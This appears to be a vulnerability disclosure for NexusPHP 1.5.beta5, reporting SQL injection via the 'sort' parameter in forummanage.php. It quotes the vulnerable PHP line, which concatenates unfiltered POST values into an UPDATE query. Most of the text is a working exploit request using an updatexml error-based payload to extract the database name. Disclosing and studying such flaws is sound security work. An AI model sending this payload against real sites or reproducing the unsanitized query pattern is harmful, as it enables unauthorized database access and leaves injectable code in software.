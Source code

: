 ## NexusPHP 1.5.beta5.20120707 has SQL Injection in forummanage.php via the sort parameter in an editforum action
### powered by caoboguang 
### version: v1.5.beta5.20120707
### Download link:https://sourceforge.net/projects/nexusphp/
#### /nexusphp.v1.5.beta5.20120707/forummanage.php  Line 48

```
sql_query("UPDATE forums SET sort = '" . $_POST['sort'] . "', name = " . sqlesc($_POST['name']). ", description = " . sqlesc($_POST['desc']). ", forid = ".sqlesc(($_POST['overforums'])).", minclassread = '" . $_POST['readclass'] . "', minclasswrite = '" . $_POST['writeclass'] . "', minclasscreate = '" . $_POST['createclass'] . "' where id = ".sqlesc($id)) or sqlerr(__FILE__, __LINE__);
```
***$_POST['sort']***   has not been filtered to cause injection
### EXP：
```
http://localhost/forummanage.php


name=11&desc=11&id=1&action=editforum&sort=11' or updatexml(1,concat(0x7e,(database())),0)#
```
Through the sql injection can get the database information

